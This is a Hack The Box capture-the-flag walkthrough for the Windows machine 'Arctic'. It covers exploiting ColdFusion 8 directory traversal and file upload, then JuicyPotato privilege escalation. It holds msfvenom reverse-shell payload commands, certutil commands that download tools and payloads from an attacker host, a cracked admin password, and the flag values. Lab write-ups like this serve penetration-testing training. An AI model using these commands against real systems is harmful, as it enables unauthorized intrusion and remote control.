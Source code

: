 # Arctic

Address: `10.10.10.11`

## Recon

- platform is windows
- 135 msrpc
- 8500 fmtp?
- 49154 rpc

When visiting the port `8500`, we actually get a directory with files listed.

Navigating to `http://10.10.10.11:8500/CFIDE/administrator/` yields us with a coldfusion 8 server.

## Coldfusion 8

The server is running coldfusion8. A known vulnerability on coldFusion 8 is directory traversal on [exploitdb](https://www.exploit-db.com/exploits/14641)

Then we get the hashes the password:

```sh
Username: admin
Password: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 = happyday
```

logging into the control panel, it is possible to upload a file in scheduled tasks since there is an RFI vulnerability there.

Using a python script found online for the file upload:

Create the payload:

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=443 > shell.jsp
```

then run the arbitrary file upload script

```sh
python coldfusion_afi.py 10.10.10.11 8500 /home/omar2535/HTB/results/10.10.10.11/exploit/shell.jsp
```

And now with a netcat listener on 443, we get a reverse shell

User.txt: `02650d3a69a70780c302e146a6cb96f3`

## Priv esc

```sh
certutil.exe -urlcache -split -f "http://10.10.14.27/winPEAS.bat" C:\Users\tolis\Desktop\winPEAS.bat
```

Find that juicy potato exploit is available

Generate shell for it

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.27 LPORT=5555 -f exe > shell.exe
```

Transfer required files over

```sh
certutil.exe -urlcache -split -f "http://10.10.14.27/JuicyPotato.exe" C:\Users\tolis\Desktop\JuicyPotato.exe
```

```sh
certutil.exe -urlcache -split -f "http://10.10.14.27/shell.exe" C:\Users\tolis\Desktop\shell.exe
```

Fire it off with a netcat listener on `5555`:

```sh
JuicyPotato.exe -t t -p C:\Users\tolis\Desktop\shell.exe -l 5837
```

And root is obtained.

Root.txt: `ce65ceee66b2b5ebaff07e50508ffb90`
